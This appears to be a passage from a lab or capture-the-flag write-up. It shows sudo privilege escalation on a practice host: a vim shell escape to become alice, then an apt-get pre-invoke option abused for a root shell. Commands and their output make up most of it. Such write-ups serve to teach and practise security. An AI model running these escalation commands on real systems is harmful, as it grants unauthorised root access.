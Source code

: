 Thus we run the following to gain a shell as alice:
```bash
sudo -u alice vim -c ':!/bin/sh'
```

We check what alice is allowed to do:
```bash
$ sudo -l -U alice
Matching Defaults entries for alice on vulnhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User alice may run the following commands on vulnhost:
    (root) NOPASSWD: /usr/bin/apt-get
```
Thus Alice can execute apt-get as root without a password using sudo, thus we look for a way to spawn a new shell using apt-get
Looking at GTFObins, we try the exploits listed under sudo
```
$ sudo apt-get changelog apt-get
E: Unable to locate package apt-get
E: No packages found
```
Since that didn't work, we try the another one
```
sudo apt-get update -o APT::update::pre-invoke::=/bin/bash
root@vulnhost:/tmp#
```
And we have root